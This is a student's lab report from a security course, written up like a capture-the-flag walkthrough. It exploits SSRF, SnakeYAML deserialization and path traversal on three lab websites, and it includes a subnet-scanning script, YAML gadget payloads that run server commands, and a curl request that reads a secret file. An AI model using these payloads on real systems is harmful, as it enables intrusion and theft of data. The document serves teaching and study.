

# SLH Lab #1

Author: Timothée Van Hove

Date: 10/26/2023

## Introduction

The objective of this lab is to study various Top25 CWE attacks. You have to attack the vulnerable applications and answer to the questions in a report


## Website 1

Last year’s students were tasked with improving the security of a grade management system named KING (KING Is Not GAPS). One of these students’ project ended up in production, but the content of its database got leaked by an unknown hacker! The hacker generously made the email addresses and passwords of the students publicly available on http://10.190.133.22:9002.


> 1.1. What informations can you gather from the frontpage alone? How does the website function?


The website seems to function as a tool to retrieve passwords from one of two databases based on the input email. From the HTML page, the main functionalities of the website are:

- A form that allows a user to input an email address and select a server (DB1 or DB2).
- A button to retrieve passwords associated with the input email.
- A section to display the retrieved passwords.
- A button to clear the displayed results.

If we submit the form without providing the email address, the all the email/passwords are returned from the selected DB.


> 1.2. What is the IP of the databases containing the leaked logins? What information can you infer from them regarding their location? Give as much details as possible.


If we inspect a request we find the IP address of the selected DB and the target email address.

```
POST /list HTTP/1.1
Host: 10.190.133.22:9002
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.190.133.22:9002/
content-type: application/json
Content-Length: 38
Origin: http://10.190.133.22:9002
DNT: 1
Connection: keep-alive
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache

{"server":"192.168.111.11","email":""}
```

When selecting DB2, the request payload is: `{"server":"192.168.111.12","email":""}`


So the IP of the databases are :

* DB1: 192.168.111.11
* DB2: 192.168.111.12

These databases are likely within the same local network, given their sequential IPs. They are not directly accessible from the public internet, as these IPs are private.


> 1.3. The hacker has also a private database storing a secret flag. What is this flag?


The flag is `SLH_23{M4ch1n354nd4ndr01d5}`


> 1.4. How did you find the flag? Explain your attack clearly.


I made a python script to send a request to all the IP address in the range 192.168.111.0 - 192.168.111.255.

Here is my script:

```python
import requests

# URL to which we want to send the request
url = 'http://10.190.133.22:9002/list'

# Define the headers
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Sec-GPC": "1",
    "content-type": "application/json",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache"
}

# Iterate over the full range
for i in range(256):
    ip = f'192.168.111.{i}'
    payload = {
        'server': ip,
        'email': ''
    }

    try:
        response = requests.post(url, json=payload, headers=headers, timeout=5)  
        print(f'Response for IP {ip}: {response.status_code}')
        if response.status_code == 200:
            print(response.text)  # Print the response body
    except requests.ConnectionError:
        print(f"Failed to connect to {ip}")
    except requests.Timeout:
        print(f"Timeout for {ip}")
    except Exception as e:
        print(f"An error occurred for {ip}: {str(e)}")

```


When I launched the script, I saw that the server 192.168.111.137 responded:

```
[{"email":"vel.arcu@yahoo.org","password":"UVG28TNX0WP"},{"email":"magna@outlook.com","password":"JKY91UXY6TR"},{"email":"per@aol.ca","password":"JYB48OIC2WU"},{"email":"elementum@hotmail.ca","password":"XMA48DTP1UO"},{"email":"ac@icloud.net","password":"JOR22WOK1PD"},{"email":"commodo@protonmail.ca","password":"YBT49JYX1HX"},{"email":"proin.eget@hotmail.org","password":"YKE32QHX7KL"},{"email":"nec.euismod@protonmail.net","password":"JNJ81SLW0YD"},{"email":"dis@aol.ca","password":"PTH51CYD1QJ"},{"email":"et.magnis.dis@icloud.net","password":"GYJ84ARJ6OU"},{"email":"flag","password":"SLH_23{M4ch1n354nd4ndr01d5}"},{"email":"quis.urna@protonmail.edu","password":"RSK26LQC7WV"},{"email":"aptent.taciti@protonmail.ca","password":"OFH17AGL4ER"},{"email":"torquent.per@protonmail.net","password":"XIK75EKL6DP"},{"email":"gravida.nunc.sed@protonmail.couk","password":"GPO39UJA2AH"},{"email":"adipiscing@outlook.couk","password":"ERS05TCA2AZ"},{"email":"luctus.aliquet@protonmail.com","password":"IIY84PWT3PS"}]
```

Finally, I spotted the flag : `SLH_23{M4ch1n354nd4ndr01d5}`


> 1.5. What is the CWE you exploited? Cite at least the main one. 


It corresponds to the CWE 918. Server-side request forgery or SSRF leverages the ability of a web application to perform unauthorized requests to internal or external systems. If the web application contains functionality that sends requests to other servers, the attacker can interfere with it. [^1]

[^1]:  [source](https://www.immuniweb.com/vulnerability/ssrf.html)


## Website 2

You are given access to a cool website (http://10.190.133.22:9004/) that allows you to convert an image to black and white and change its brightness. The comment field is supposed to add the content in the metadata (the developer didn’t do it, no time). The backend is written in Java and you came across a version of the source code that runs in a docker.


> 2.1. One of the dependencies suffers from various CVEs, one of which being very critical. Provide the exact CVE number and the related CWE.


Here are the found CVEs of the dependencies (found by my IDE) :

| Dependency                                               | CVE            | CWE                                                          | CVSS |
| -------------------------------------------------------- | -------------- | ------------------------------------------------------------ | ---- |
| org.apache.tomcat.embed:tomcat-embed-core:10.1.1         | CVE-2023-28708 | Unprotected Transport of Credentials vulnerability           | 4.3  |
| org.springframework.boot:spring-boot-autoconfigure:3.0.0 | CVE-2023-20883 | Uncontrolled Recursion vulnerability                         | 7.5  |
| org.springframework:spring-expression:6.0.2              | CVE-2023-20863 | Improper Neutralization of Special Elements used in an Expression Language Statement ('Expression Language Injection') vulnerability | 6.5  |
| org.springframework:spring-webmvc:6.0.2                  | CVE-2023-20860 | Improper Neutralization of Wildcards or Matching Symbols vulnerability | 7.5  |
| org.yaml:snakeyaml:1.31                                  | CVE-2022-38752 | Out-of-bounds Write vulnerability                            | 6.5  |
| org.yaml:snakeyaml:1.31                                  | CVE-2022-41854 | Out-of-bounds Write vulnerability                            | 6.5  |
| org.yaml:snakeyaml:1.31                                  | CVE-2022-1471  | Deserialization of Untrusted Data vulnerability              | 9.8  |
| net.minidev:json-smart:2.4.8                             | CVE-2023-1370  | Uncontrolled Recursion vulnerability                         | 7.5  |

The most critical one is the CVE-2022-1471 with a CVSS of 9.8. So we might use it to find the flag.


> 2.2. Exploit the vulnerability. 


#### Vulnerability

SnakeYAML doesn't restrict object types after deserialization. Any class in the Java classpath can be instantiated during deserialization.

Gadget Chain refers to chaining multiple classes or functions to execute arbitrary code. In SnakeYAML's case, the vulnerability is because the `Constructor` method does not limit which classes can be instantiated, making it vulnerable to attacks with `gadgets`. For example, using `javax.script.ScriptEngineManager` and `java.net.URLClassLoader`, an attacker can execute arbitrary code after SnakeYAML deserializes certain data. 

In our case, the above mentioned classes are not available in the code, but luckily, we can use the `CommandFileGenerator` class to our advantage to exploit the vulnerability. This class can be used to execute a command on the server side. Now we must understand what kind of commands we can execute.

Firstly, the class takes 2 string parameters, so the gadget will look like:

```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ <param1> ], !!java.lang.String [ <param2> ] ]
```

By looking a the code, we can see that `<param1>` is the endpoint to browse to see the command output and `<param2>` is the command to be executed on the server with its argument :

```java
public CommandFileGenerator(String fileName, String command) {
	this.command = command;
	this.fileName = fileName;
	try{
		verifyNameParameters(fileName);
		executeCommandAndGenerateFile();
		logger.info("{} command had been successfully executed and stored at 			/generated/{}", this.command, this.fileName);
		}
		catch (Exception e) {
			logger.warn("{} command failed to execute, or the result could not be stored", command);
		}
}
```

Apparently, the filename argument will be verified using a regex in the `verifyNameParameters` method:

```java
private static void verifyNameParameters(String name) throws IllegalArgumentException{
	Pattern pattern = Pattern.compile("^[A-Za-z]+$");
	if (!pattern.matcher(name).find() || name.length() < 8){
		logger.warn("{} command name is not valid", name);
		throw new IllegalArgumentException("The name of a command must be compose of a minimum of 8 letters");
	}
}
```

So the filename must have exclusively uppercase (A-Z) or lowercase (a-z) and must be greater than 8 character long.

The `command` parameter will also be verified inside the `executeCommandAndGenerateFile`, precisely, the `getProcess()` will verify that the command is either `cat` or `ls` :

```java
private Process getProcess() throws IOException {
	Vector<String> VALID_COMMAND = new Vector<>(List.of(new String[]{"cat", "ls"}));
	String[] commands = command.split("\\s+");
	if (commands.length > 2 || commands.length == 0){
		logger.warn("{} command should have maximum two params", command);
		throw new IllegalArgumentException("A command has two parameters at maximum");
	}
	if (! VALID_COMMAND.contains(commands[0])) {
		logger.warn("{} command is not allowed", command);
		throw new IllegalArgumentException("This command is not allowed");
	}
	if (commands.length == 2) {
		verifyCommandParameters(commands[1]);
	}
	
	ProcessBuilder processBuilder = new ProcessBuilder(commands);
	processBuilder.redirectErrorStream(true); // Redirect error stream to the input stream
	return processBuilder.start();
}
```

And the `verifyCommandParameters` method will verify that the command argument only contains the following characters: `A-Z`, `a-z`, `_`, `.`, `/`, and that no two consecutive points (`..`) is in the argument:

```java
public static void verifyCommandParameters(String command) throws IllegalArgumentException{
	// Only path above
	Pattern pattern = Pattern.compile("^(?!.*\\.{2})[A-Za-z._/]+$");
	if (!pattern.matcher(command).find()){
		logger.warn("{} command parameter is not valid", command);
		throw new IllegalArgumentException("Invalid characters");
	}
}
```


**To summarize**:

We can send a gadget to the server using the blank field in the website. This gadget must call the `CommandFileGenerator` class that will execute `cat` or `ls` command on the server if their argument is valid, then we can see the output of the command on the ``http://10.190.133.22:9004/command/<filename>` endpoint.


#### Exploitation

We must begin by executing `ls` commands to see the directory structure on the server. For example:

```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ endpoint ] , !!java.lang.String [ ls app/main/resources ] ]
```

We can check the result of the command at `http://10.190.133.22:9004/command/endpoint`:

```
Generated File Content
application.properties
static
templates
```

Then we can read the content of the files. The `application.properties` file is what we are looking for:
```
!!heig.slh_24_ctf.CommandFileGenerator [ !!java.lang.String [ endpoint ] , !!java.lang.String [ cat app/main/resources/application.properties ] ]
```

And the content is:

```
 # Server port
server.port=8080

# Secret key
secret.key=7a0346cc2f0209c32c2d94aef4468cdf

# Encrypted flag
secret.data=9yy3Cdy9YhhxSsAzPnQeBGSNuaYs+1BXxOUH0noVnUuwckTvYeUkyf4rj/KUawLhXojMz6eQCmGB7zWKYekAdOyPJSkKuJC2/CMIItm2vSI=

# Thymeleaf
spring.thymeleaf.prefix=classpath:/templates/
spring.thymeleaf.suffix=.html
spring.thymeleaf.cache=false
```

Finally, we can take the secred.key value and paste it in the `http://10.190.133.22:9004/secret` endpoint to decrypt the flag.




> 2.3. Which CWEs did you exploit to obtain the flag?


**CWE-502: Deserialization of Untrusted Data**: This is the primary vulnerability we exploited. The system use the SnakeYAML library to deserialize untrusted data, which leads to the instantiation of arbitrary classes. This allowed us to exploit the `CommandFileGenerator` class to execute commands on the server.

**CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')**: After exploiting the deserialization vulnerability, we leveraged the application's ability to execute commands on the server. Even though the system has some restrictions on which command can be executed, the fact that these commands can be used to access sensitive information makes this a clear weakness.

**CWE-200: Information Exposure**: After successfully exploiting the above vulnerabilities, we accessed sensitive information, in the `application.properties` file. This expose critical application configurations including a secret key.

**CWE-312: Cleartext Storage of Sensitive Information**: The `application.properties` file contained sensitive data, such as the secret key, in cleartext.


## Website 3

The third website can be found at the url http://10.190.133.22:9003/. It allows to upload and download files on a server. Only small txt, jpg, jpeg, png, and pdf files can be uploaded.


> 3.1 Recover the secret.txt file. It can be found at the same level as the application. Provide an explanation of the attack and the secret flag.


#### Vulnerability:

The server allows users to upload files and then retrieve them. However, we observed that the server constructs the file path directly from user input without adequately validating or sanitizing it. The vulnerability exists in the following line of code:

```python
filename = os.path.join(app.config['UPLOAD_FOLDER'], uuid_filename)
```

The `os.path.join()` method is designed to join path components. However, if a component is an absolute path, all previous components are thrown away, and the joining continues from the absolute path component. This behavior, in addition with improper validation of the `uuid_filename` variable, means that we can provide an absolute path (starting with '/') as input, bypassing the intended upload folder and accessing any file on the server.

#### Exploitation:

If we provide `/app/secret.txt` as the file name in the download request, the server will ignore the `/app/uploads` prefix and directly try to access the file at `/app/secret.txt`. Here is how we exploited the vulnerability:

1. We made a POST request to the `/file` endpoint with the following data:

```bash
curl 'http://10.190.133.22:9003/file' \
-X POST \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H 'Content-Type: application/x-www-form-urlencoded' \
--data-raw 'name=/app/secret.txt'
```

The server responded `Congrats ! The flag is SLH_24{Hackermaaaan}`


> 3.2 Which CWE(s) did you exploit here?


**CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')**: Path traversal vulnerabilities occur when an application accepts user-controlled input without properly validating it as safe, which allows an attacker manipulate files outside of the intended directory.

**CWE-73: External Control of File Name or Path**: When an application uses input from an upstream component to construct a pathname that is intended to identify a file or directory located underneath a restricted parent directory. Here, the server blindly trusts the `uuid_filename` from the user, allowing the retrieval of arbitrary files.

**CWE-20: Improper Input Validation**: While this is a broad category, it's relevant because the server did not validate the file name provided by the user, leading to the primary path traversal vulnerability.


> 3.3 How would you fix the problems in the code? There might be more than one thing to fix here.


Instead of using `os.path.join`, which can be overridden by an absolute path, we can validate and handle the user-provided filename strictly:

```python
user_path = os.path.normpath('/' + uuid_filename).lstrip('/')
final_path = os.path.join(app.config['UPLOAD_FOLDER'], user_path)
if final_path.startswith(app.config['UPLOAD_FOLDER']):
	# Process the file
else:
	# Reject request
```


`os.path.normpath()` normalizes the user-provided path. This means it resolves any `..` or `.` or double slashes (`//`) in the path. For example, if someone tries a traversal with `../../etc/passwd`, `normpath()` will resolve it to `../etc/passwd`. By adding a `/` in front of the user input and then using `normpath`, we are making sure to normalize it in the context of a root directory. The `.lstrip('/')` then removes any leading slashes to ensure we don't get an absolute path.

The behavior of `os.path.join()` is such that if the second argument is an absolute path, it will return the second argument as-is, discarding the first. By normalizing and ensuring the user input doesn't start with a `/`, we're ensuring that the join always considers the user input relative to our upload folder.

After joining the paths, we check if the result still starts with our intended directory (`app.config['UPLOAD_FOLDER']`). This ensures the path is still within the limits of the intended directory. If it's not, we can reject the request.
